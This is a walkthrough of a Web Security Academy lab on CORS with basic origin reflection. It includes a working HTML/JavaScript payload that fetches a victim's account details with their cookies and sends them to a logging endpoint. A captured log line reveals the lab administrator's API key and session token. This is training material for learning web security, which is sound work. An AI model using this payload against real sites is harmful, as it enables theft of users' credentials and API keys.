



# Lab: CORS vulnerability with basic origin reflection

> Lab Objective: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- Login using provided credentials `wiener:peter`.

- Inspect Login Requests, you'll notice that there is a request made to `/accountDetails`, that returns user details within the response in JSON format.
  

- Inspect that request, and you'll find that:

  - it employs `Access-Control-Allow-Credentials: true` header, therefore the Cookies must sent via the request in order to access that details.

  - Add `Origin: https://attacker.com` to request headers, you'll notice that it's reflected within the response headers.
    

- Use this payload to exploit this vulnerability, but try it in Burp Browser.

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      url = "https://0a8b00740449041e809503f8005200ac.web-security-academy.net";
      req.onload = reqListener;
      req.open("get", url + "/accountDetails", true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location = "/log?key=" + this.responseText;
      }
    </script>
  </body>
</html>
```

- Deliver the exploit to victim then Access Log to review the request.

```http
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%227qDmnkqZ1hikPxuVPJKib8wCX9KZaaZS%22,%20%20%22sessions%22:%20[%20%20%20%20%22qaLfRf8XkEmzOPNwBMPRlZ6Yy6uj4fMP%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

- Extract API Key: `7qDmnkqZ1hikPxuVPJKib8wCX9KZaaZS`

- Then the lab is solved successfully.
  

---